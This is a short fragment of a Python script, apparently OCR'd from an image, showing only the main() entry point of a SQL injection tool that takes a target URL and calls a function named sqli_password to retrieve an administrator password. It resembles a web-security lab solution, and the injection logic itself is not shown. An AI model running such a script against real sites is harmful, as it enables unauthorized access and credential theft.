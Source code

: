 ```python
def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Retreiving administrator password...")
    sqli_password(url)


if __name__ == "__main__":
    main()
```



